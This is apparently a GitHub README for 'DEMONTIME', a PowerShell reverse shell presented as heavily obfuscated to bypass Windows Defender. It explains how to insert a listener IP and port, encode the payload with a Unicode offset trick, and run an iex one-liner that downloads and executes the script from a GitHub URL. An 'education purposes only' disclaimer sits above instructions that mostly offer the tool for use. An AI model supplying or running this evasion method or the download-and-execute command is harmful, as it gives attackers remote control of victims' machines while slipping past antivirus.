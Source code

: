 <h1>DEMONTIME</h1>

<h3>Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender</h3>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


<h2>Instructions</h2>

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.

   
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format. Every unicode decimal on the output already has +10 added from its original form. The PowerShell script (demontime-template.ps1) will then subtract 10 on each of those unicode from the array to convert it back to its original unicode form.


![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

3. Replace the Unicode payload on the demontime-template.ps1 script with the output generated from the Python script.

**NOTE: You can also use the Obfuscated PowerShell reverse shell one liner template alone if you wanted to. This also bypasses Windows Defender but if you wanted to add more obfuscation, you can convert the characters to unicode using the supplied Python script.** 

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number straight from Github:


**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxxx/demontime/main/demontime-template.ps1')```



![image](https://github.com/aaronquiamco/demontime/assets/59388557/e651c43a-6868-4124-ba6f-d3beaaf192bb)
